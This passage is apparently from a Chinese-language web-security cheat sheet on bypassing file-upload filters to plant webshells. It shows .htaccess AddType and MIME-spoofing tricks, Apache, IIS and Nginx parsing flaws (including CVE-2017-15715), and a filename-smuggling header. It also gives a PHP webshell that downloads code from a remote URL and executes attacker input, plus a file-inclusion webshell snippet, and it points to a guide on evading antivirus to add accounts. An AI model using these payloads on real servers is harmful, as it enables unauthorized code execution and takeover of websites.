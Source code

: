 <span class="hljs-attr">AddType</span>    <span class="hljs-string">application/x-httpd-php    .jpg</span></code></pre>
<h4 id="突破mime限制上传">突破MIME限制上传</h4>
<pre class="wp-block-code"><code class="hljs">方法：找一个正常的可上传的查看其的MIME类型，然后将马子的MIME改成合法的MIME即可。</code></pre>
<h4 id="apache解析漏洞">Apache解析漏洞</h4>
<pre class="wp-block-code"><code class="hljs css">1.一个文件名为<span class="hljs-selector-tag">test</span><span class="hljs-selector-class">.x1</span><span class="hljs-selector-class">.x2</span><span class="hljs-selector-class">.x3</span>的文件，<span class="hljs-selector-tag">apache</span>会从<span class="hljs-selector-tag">x3</span>的位置开始尝试解析，如果<span class="hljs-selector-tag">x3</span>不属于<span class="hljs-selector-tag">apache</span>能够解析的扩展名，那么<span class="hljs-selector-tag">apache</span>会尝试去解析<span class="hljs-selector-tag">x2</span>，直到能够解析到能够解析的为止，否则就会报错。
2<span class="hljs-selector-class">.CVE-2017-15715</span>，这个漏洞利用方式就是上传一个文件名最后带有换行符(只能是\<span class="hljs-selector-tag">x0A</span>，如上传<span class="hljs-selector-tag">a</span><span class="hljs-selector-class">.php</span>，然后在<span class="hljs-selector-tag">burp</span>中修改文件名为<span class="hljs-selector-tag">a</span><span class="hljs-selector-class">.php</span>\<span class="hljs-selector-tag">x0A</span>)，以此来绕过一些黑名单过滤。
</code></pre>
<h4 id="iis解析漏洞">IIS解析漏洞</h4>
<pre class="wp-block-code"><code class="hljs bash">IIS6.0在解析asp格式的时候有两个解析漏洞，一个是如果目录名包含<span class="hljs-string">".asp"</span>字符串，
那么这个目录下所有的文件都会按照asp去解析，另一个是只要文件名中含有<span class="hljs-string">".asp;"</span>
会优先按asp来解析
IIS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL
后面追加上字符串<span class="hljs-string">"/任意文件名.php"</span>就会按照php的方式去解析；
</code></pre>
<h4 id="nginx解析漏洞">Nginx解析漏洞</h4>
<pre class="wp-block-code"><code class="hljs perl">解析： (任意文件名)/(任意文件名).php | (任意文件名)%00.php
描述：目前Nginx主要有这两种漏洞，一个是对任意文件名，在后面添加/任意文件名.php
的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。
还有一种是对低版本的Nginx可以在任意文件名后面添加%00.php进行解析攻击。</code></pre>
<h4 id="解析漏洞">解析漏洞</h4>
<pre class="wp-block-code"><code class="hljs apache"><span class="hljs-attribute">Content</span>-Disposition: form-data; name=<span class="hljs-string">"file"</span>;  filename=php.php;.jpg</code></pre>
<h3 id="前端限制绕过">前端限制绕过</h3>
<pre class="wp-block-code"><code class="hljs">1.使用BURP抓包修改后重放
2.或者使用浏览器中元素审查，修改允许或禁止上传文件类型。</code></pre>
<h3 id="下载绕过">下载绕过</h3>
<p>远程下载文件绕过</p>
<pre class="wp-block-code"><code class="hljs xml"><span class="php"><span class="hljs-meta">&lt;?php</span>
$str = file_get_contents(<span class="hljs-string">'http://127.0.0.1/ian.txt'</span>);
$str($_post[<span class="hljs-string">'ian'</span>]);
<span class="hljs-meta">?&gt;</span></span></code></pre>
<h3 id="文件包含绕过">文件包含绕过</h3>
<pre class="wp-block-code"><code class="hljs ruby">上传图片木马
$x=$_GET[<span class="hljs-string">'x'</span>];
<span class="hljs-keyword">include</span>($x);
访问<span class="hljs-symbol">:http</span><span class="hljs-symbol">://www</span>.xxxx.com/news.php?x=xxxxxx.jpg</code></pre>
<h3 id="文件包含绕过">绕过AV软件添加账户并远程桌面</h3>
https://xz.aliyun.com/t/4078
</div>